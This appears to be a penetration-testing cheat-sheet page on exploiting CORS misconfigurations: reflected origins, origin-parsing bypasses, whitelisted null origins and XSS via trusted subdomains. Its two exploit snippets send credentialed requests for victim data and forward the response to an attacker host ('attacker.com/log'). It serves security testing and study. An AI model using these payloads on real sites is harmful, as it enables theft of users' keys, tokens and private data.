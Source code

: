 # CORS

**Impact**: if a response contains any sensitive information such as an API key or CSRF token, you could retrieve these info.

## <mark style="color:purple;">Server ACAO Header from Client-Origin</mark>

Some app read the Origin header from requests and including a response header stating that the requesting origin is allowed.

**Detection**&#x20;

Send request with `Origin: https://example.com` and see if the origin is reflected in the `Access-Control-Allow-Origin` header.

**Exploit**

```html
<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
	location='https://attacker.com/log?key='+this.responseText;
};
</script>
```

## <mark style="color:purple;">**Errors parsing Origin headers**</mark>

Suppose `normal-website.com`. Bypass with`hackersnormal-website.com` or `normal-website.com.evil-user.net`

{% hint style="info" %}
**Note**: you need to know the whitelisted origins.
{% endhint %}

## <mark style="color:purple;">**Whitelisted null origin value**</mark>

**Detection**

Send request with `Origin: null` and see if the response has `Access-Control-Allow-Origin: null`

**Exploit**

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='https://attacker.com/log?key='+this.responseText;
};
</script>"></iframe>
```

## <mark style="color:purple;">Exploiting XSS via CORS trust relationships</mark> <a href="#exploiting-xss-via-cors-trust-relationships" id="exploiting-xss-via-cors-trust-relationships"></a>

Suppose that:

```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://subdomain.vulnerable-website.com
Access-Control-Allow-Credentials: true
```

If you find an XSS on `subdomain.vulnerable-website.com` inject JavaScript that uses CORS and retrieve information.

```
https://subdomain.vulnerable-website.com/?xss=<script>cors-stuff-here</script>
```

## <mark style="color:purple;">Cookie SameSite</mark>

It is important to note that all this works in according with SameSite cookie attribute. This means that if your session cookie is set with `SameSite=Strict` the browser send the cookie only for same-site requests. For more information about this topic and how to bypass it, refer to [#samesite-cookies](csrf-cross-site-request-forgery.md#samesite-cookies "mention").
